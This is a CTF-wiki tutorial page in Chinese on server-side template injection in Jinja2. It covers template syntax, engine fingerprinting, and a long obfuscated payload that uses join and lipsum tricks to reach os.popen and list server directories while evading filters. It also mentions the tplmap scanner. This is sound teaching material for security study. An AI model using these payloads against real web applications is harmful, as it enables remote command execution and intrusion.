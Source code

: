 # SSTI
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



## 定义以及理解

模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程

模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击。

如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容

进行模版编译和解析最后输出。

最大的优点就是你可以在服务器端动态生成HTML页面，看起来跟静态HTML页面一样。

首先我们先讲解下什么是模板引擎，为什么需要模板，模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。但是往往新的开发都会导致一些安全问题，虽然模板引擎会提供沙箱机制，但同样存在沙箱逃逸技术来绕过。

（快捷方便------>承担风险）

所以漏洞的来源还是那一个：过于信任用户所输入的数据。



![img](https://tcs-devops.aliyuncs.com/storage/11241ba5a4bc12bae229287158179cff4836?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTYyNjM0OTM2MSwiaWF0IjoxNjI1NzQ0NTYxLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMjQxYmE1YTRiYzEyYmFlMjI5Mjg3MTU4MTc5Y2ZmNDgzNiJ9.-UXB24hXZzUZ9TqPnUJABW9ONURC_wcLsIvsnTRqz18)





祭出这张经典的图，经常用来判断模板类型



需要关注的点：{{7*‘7’}}



Jinja2输出为49

TWIG输出为7777777

那么到底这个东西能干嘛呢？

先给出初步印象（jinja2）：

用户输入{{7+7}}

然后服务器帮你运行{{}}中的代码，算出来=49.

就是相当于服务器帮你解析运行了你输入的数据，这时候我们如果输入的是恶意的代码........

## 基础语法

~~觉得写的太少了想添加欢迎。~~


```plain
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... # for Line Statements
Plain Text
```



这个是官方文档的介绍


{%%}可以用来声明变量，当然也可以用于循环语句和条件语句。


{{}}用于将表达式打印到模板输出


{##}表示未包含在模板输出中的注释


##可以有和{%%}相同的效果


```plain
{% set x= 'abcd' %}  声明变量
{% for i in ['a','b','c'] %}{{i}}{%endfor%} 循环语句
{% if 25==5*5 %}{{1}}{% endif %}  条件语句
Plain Text
```



```plain
# for i in ['a','1']{{ i }}# endfor
{% for i in ['a','1'] %}{{ item }}{% endfor %}
这两条是等效的，但是有个前提，必须在environment中配置line_statement_prefix即app.jinja_env.line_statement_prefix="#"
Plain Text
```



You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]). --官方原文


除了标准的python语法使用点`（.）`外，还可以使用中括号`（[]）`来访问变量的属性。


```plain
{{"".__class__}}
{{""['__classs__']}}
Plain Text
```



从某种意义上，这也是一种绕过。


有些题目会写的很长，不妨拿个过来看看，如果能看懂那基础（甚至是进阶）部分应该就没什么问题了。


```plain
{% set id=dict(ind=a,ex=a)|join%}#利用join过滤器拼接成index，下面几个类似
{% set pp=dict(po=a,p=a)|join%}
{% set ls=dict(ls=a)|join%}
{% set ppe=dict(po=a,pen=a)|join%}
{% set gt=dict(ge=a,t=a)|join%}
{% set cr=dict(ch=a,r=a)|join%}
{% set nn=dict(n=a)|join%}
{% set tt=dict(t=a)|join%}
{% set ff=dict(f=a)|join%}
{% set ooqq=dict(o=a,s=a)|join %}
{% set rd=dict(re=a,ad=a)|join%}
{% set five=(lipsum|string|list)|attr(id)(tt) %}#这里用lipsum过滤器最终能够取得数字5{具体流程：生成随机数字->字符串列表输出->index("f")找字符'f'在生成的列表中的第一次出现的位置..}（lorem is not just a normal snippet—it’s actually a generator. Every time you expand it, it will generate a 30-words dummy text, splitted into a few sentences.）
{% set three=(lipsum|string|list)|attr(id)(nn) %}
{% set one=(lipsum|string|list)|attr(id)(ff) %}
{% set shiba=five*five-three-three-one %}
{% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}#（这个是下划线，用pop取，和上面类似）
{% set gb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set bin=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set chcr=(lipsum|attr(gb))|attr(gt)(bin)|attr(gt)(cr) %}
{% set xiegang=chcr(three*five*five-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one)%}
{% set space=chcr(three*three*five-five-five-three) %}
{% set shell=(ls,space,xiegang,dict(var=a)|join,xiegang,dict(www=a)|join,xiegang,dict(flask=a)|join)|join %}
{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(shell)|attr(rd)()}}
```

不做过多解释，之后你还会看到他的。

## 使用工具

tplmap:ssti扫描工具，在初期会带给你美妙的体验

```
git clone https://github.com/epinna/tplmap
```

至于用法-h自己慢慢摸索。

## Django报错

不是ssti


但是是模板所以放这了，原理是溢出


%80后的字符结合报错信息UnicodeEncodeError可以推断是由于ascii编码不支持导致的报错


网站是使用Django进行开发的,结合PHP可以通过在参数中注入@来读取文件的漏洞,依次查看python的配置文件和数据库得到flag的内容


（这个我自己总结图片被吞掉了，先放着）
